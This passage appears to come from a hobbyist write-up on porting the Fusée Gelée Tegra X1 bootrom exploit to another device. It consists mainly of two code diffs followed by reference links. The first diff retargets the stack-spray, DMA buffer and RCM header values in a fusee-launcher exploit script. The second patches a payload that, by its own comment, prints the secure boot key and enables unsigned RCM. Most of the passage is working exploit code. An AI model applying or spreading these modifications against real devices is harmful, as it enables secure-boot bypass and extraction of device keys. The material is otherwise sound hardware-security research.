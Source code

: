 ```diff
-STACK_SPRAY_START   = 0x4000EE40
-STACK_SPRAY_END     = 0x40011000
+STACK_SPRAY_START   = 0x40014E40
+STACK_SPRAY_END     = 0x40017000
 
 class RCMError(Exception):
     def __init__(self, rcm_error_code):
@@ -467,8 +467,8 @@ class RCMHax:
     DEFAULT_PID = 0x7330
 
     # Exploit specifics
-    COPY_BUFFER_ADDRESSES   = [0x40003000, 0x40005000]   # The addresses of the DMA buffers we can trigger a copy _from_.
-    STACK_END               = 0x4000A000                 # The address just after the end of the device's stack.
+    COPY_BUFFER_ADDRESSES   = [0x40005000, 0x40009000]   # The addresses of the DMA buffers we can trigger a copy _from_.
+    STACK_END               = 0x40010000                 # The address just after the end of the device's stack.
 
     def __init__(self, wait_for_device=False, os_override=None, vid=None, pid=None, override_checks=False):
         """ Set up our RCM hack connection."""
@@ -725,7 +725,7 @@ with open("intermezzo_patched.bin", "wb") as f:
 # Prefix the image with an RCM command, so it winds up loaded into memory
 # at the right location (0x40010000).
 
-RCM_HEADER_SIZE = RCM_V1_HEADER_SIZE
+RCM_HEADER_SIZE = RCM_V4P_HEADER_SIZE
 
 # Use the maximum length accepted by RCM, so we can transmit as much payload as
 # we want; we'll take over before we get to the end.
```

Next, I downloaded [@ktemkin's non-secure RCM enable payload][8] and put it in the same directory. I also made the following changes (the original patch did not cover some other code paths that checks the security fuse bit):

```diff
diff --git a/ipatch_rcm_sample.c b/ipatch_rcm_sample.c
index 491cb60..b797c2f 100644
--- a/ipatch_rcm_sample.c
+++ b/ipatch_rcm_sample.c
@@ -7,9 +7,13 @@
  */
 
 #include <stdint.h>
-#include "registers.h"
 #include "t210.h"
 
+#define _REG(base, off) *(volatile unsigned int *)((base) + (off))
+#define reg_write(base, off, value) _REG(base, off) = value
+#define reg_clear(base, off, value) _REG(base, off) &= ~value
+#define reg_set(base, off, value) _REG(base, off) |= value
+#define reg_read(base, off) _REG(base, off)
 
 #define HEX_CHAR(x) ((((x) + '0') > '9') ? ((x) + '7') : ((x) + '0'))
 
@@ -262,7 +266,7 @@ void unipatch_word(uint8_t slot)
 /**
  * Example exploit payload; printks the SBK and enables unsigned RCM.
  */
-void main()
+void __attribute__((section(".entry"))) main()
```

[1]: https://forum.xda-developers.com/t/build-kernel-from-source-and-boot-to-ubuntu-using-l4t-linux-for-tegra-rootfs.3274632/
[2]: https://forum.xda-developers.com/t/build-kernel-from-source-and-boot-to-ubuntu-using-l4t-linux-for-tegra-rootfs.3274632/post-67972032
[3]: https://misc.ktemkin.com/fusee_gelee_nvidia.pdf
[4]: https://twitter.com/qlutoo
[5]: https://github.com/Qyriad/fusee-launcher
[6]: https://github.com/tofurky/tegra30_debrick
[7]: https://github.com/jevinskie/fusee-launcher
[8]: https://gist.github.com/ktemkin/825d5f4316f63a7c11ea851a2022415a
[9]: https://developer.nvidia.com/shield-developer-os-images
[10]: https://developer.nvidia.com/gameworksdownload#
[11]: https://developer.nvidia.com/embedded/linux-tegra-r2423
[12]: https://developer.nvidia.com/embedded/dlc/tx1-driver-package-r2423
[13]: https://github.com/adeljck/Tegra-X1-Bootrom